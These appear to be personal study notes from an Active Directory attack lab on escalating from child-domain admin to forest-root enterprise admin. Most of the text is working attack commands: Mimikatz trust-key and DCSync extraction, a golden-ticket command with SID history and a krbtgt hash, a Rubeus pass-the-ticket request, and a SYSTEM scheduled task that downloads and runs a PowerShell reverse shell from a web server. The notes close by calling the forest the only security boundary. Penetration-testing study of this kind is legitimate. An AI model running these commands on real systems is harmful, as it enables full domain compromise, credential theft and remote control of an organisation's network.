

Domains_same_forest
Methods of escalate trust
- krbtgt hash
- trust tickets
Child To parent Trust flow

- Inter-Realm TGT is encrypted with trust key shared by both parent and child
- the only validation is being able to decrypt the Inter-Realm TGT
Privesc : child to parent using trust tickets
- from domain admin in dcorp to enterprise admin / domain admin in forest root
- steps
- Invoke-Mimikatz -Command ‘"lsadump::trust /patch " ’ -ComputerName dcorp -dc
- Or : Invoke-Mimikatz -Command ‘"lsadump::dcsync /user:dcorp\mcorp$"’
- now everything we write in TGT will by trusted by the other dc
- inject sid history
- then request TGS for services like cifs and inject the TGS
- rthen we can access fs of the domain2
- 1.
1. Attack via Rubeus and trusts after extracting kirbi key
- Invoke-Mimikatz -Command '"lsadump::trust /patch"'
- .\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt
2 Privesc : child to parent using krbtgt hash
- Invoke-Mimikatz -Command ‘"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:b08a216768f3423301009d5953ffbbe3 /ticket:c:\Users\svcadmin\Downloads\ticket.kirbi"’
- \krbtgt:trust_key
- /sids = sid of enterprise domain = <sid of root>+-519
- Create the inter-realm TGT
- we save it into C:\AD\Tools\krbtgt_tkt.kirbi
- Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
- Grab reverse shell
- launch powercat listerner + launch web server
- in the elevated shell:
- schtasks /create /S mcorp-dc.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "task317" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.17/Invoke-PowerShellTcpEx.ps1''')'"
- schtasks /Run /S mcorp-dc.moneycorp.local /TN "task317" // run the STCheck scheduled task
Conclusion
- forest is the only security boundary
- if a domain admin is compromised within the forest => defender need to rebuild all the forest
- => enterprise need to use a lot of forests